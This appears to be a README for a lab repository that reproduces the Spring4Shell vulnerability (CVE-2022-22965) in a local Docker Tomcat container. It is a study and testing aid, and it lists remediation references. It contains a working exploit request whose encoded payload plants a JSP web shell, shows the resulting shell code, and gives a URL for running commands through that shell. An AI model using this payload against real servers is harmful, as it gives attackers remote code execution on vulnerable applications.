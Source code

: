 # Replicate spring shell 0-day vulnerability
- In a spring mvc WAR application running on Tomcat.
- The issue is reproducible in a Java 11 compiled WAR running in tomcat 8
- The issue is NOT reproducible in a Java 8 compiled WAR running in tomcat 8
  - Switch the properties in pom.xml to use Java 8 and spring 3.2.9
  - Switch Dockerfile base image to  tomcat:8-jdk8-corretto


## Replicate vulnerability
1. Run command to:
   - Package a war file
   - Build a tomcat 8 JDK 11 image (This POC uses Amazon Corretto, but pick your applicable image)
   - Run a container from the image        
 `mvn clean package && docker build . -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run below POST request that attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp file is springshell.jsp
   1. If the jsp is not created, _the application is not compromised_
```
curl --request POST \
  --url http://localhost:8080/springshell/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. If springshell.jsp is created, review jsp content:
`docker exec -it springshell bash -c "cd webapps/ROOT;cat springshell.jsp"` will display
`<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %>//`
_This means the application is compromised_


4. Exploitation: Hit this url in the browser and update the shell cmd (_cmd_ query param) to print the result of the command
`http://localhost:8080/springshell.jsp?cmd=pwd`
  - If there is no response or a 404, _the application is not compromised_
  - If the output is the response of a shell command execution, _the application is compromised_. Refer remediation steps in the references below

5. Switch java and spring versions
    - Switch the properties in pom.xml to use Java 8 and spring 3.2.9
    - Switch Dockerfile base image to __tomcat:8-jdk8-corretto__  (This POC uses Amazon Corretto, but pick your applicable image)
    - Repeat above steps, and you will see that the service is not compromised
    

## Reference
- https://tanzu.vmware.com/security/cve-2022-22965
- https://blog.sonatype.com/new-0-day-spring-framework-vulnerability-confirmed
- https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/